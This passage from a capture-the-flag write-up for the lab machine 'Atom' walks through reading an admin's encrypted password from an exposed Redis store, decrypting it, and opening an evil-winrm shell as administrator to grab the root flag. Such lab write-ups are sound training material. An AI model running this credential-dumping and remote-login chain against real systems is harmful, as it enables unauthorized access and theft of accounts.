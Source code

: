 ###### Connecting_to_redis_db_from_Windows_CLI
```
PS C:\Program Files\Redis> .\redis-cli.exe -h 10.10.10.237
.\redis-cli.exe -h 10.10.10.237
auth kidvscat_yes_kidvscat
OK
keys *
pk:ids:User
pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff
pk:ids:MetaDataClass
pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0


get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}
```
Let's breakdown the above commands
- keys *  = Returns all keys matching pattern ([Redis-CLI-Docs](https://redis.io/docs/latest/commands/keys/)) This command gets us the key for the user `e8e29158-d70d-44b1-a1ba-4949d52790a0`. 
- get = Get the value of the key. In here we got the encrypted password.

We got the encrypted password for the admin. Using the same script above, we can get the decrypted password.

```
┌──(venv)─(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# python3 Decrypt_Kanban.py "Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"
Decrypted Password: kidvscat_admin_@123
```

```
──(venv)─(root㉿kali)-[/home/ringbuffer/Downloads/Atom.htb]
└─# evil-winrm -i 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'  
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
065b6c8ee722ff4ed0f2d653f3398e86
```

Get your root flag.